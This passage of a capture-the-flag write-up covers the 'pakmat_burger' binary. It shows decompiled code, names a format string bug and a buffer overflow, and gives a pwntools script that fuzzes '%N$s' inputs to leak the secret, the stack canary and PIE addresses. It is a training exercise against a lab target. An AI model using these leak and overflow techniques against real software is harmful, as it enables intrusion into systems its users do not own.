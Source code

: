 ``` C
      pcVar2 = (char *)0x0;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return pcVar2;
}
```

### Vulnerabilities

1. **Format String Vulnerability**: There is a format string vulnerability when you enter the name, if entered correctly we can get the secret message
2. **Buffer Overflow**: Buffer overflow vulnerability since has size local_35 10 only but it accepts 0x100
### Target Function

The `secret_order` function is our target to execute:
```C
void secret_order(void)

{
  system("cat ./flag.txt");
  return;
}
```

# Solution

Leak these values using format string attack:
- Secret Message
- CANARY
- Any PIE address (we can use this to find the base PIE address)

Using fuzz script i created
fuzz.py
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)


os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 25 values
for i in range(1,25):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$s'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass

```
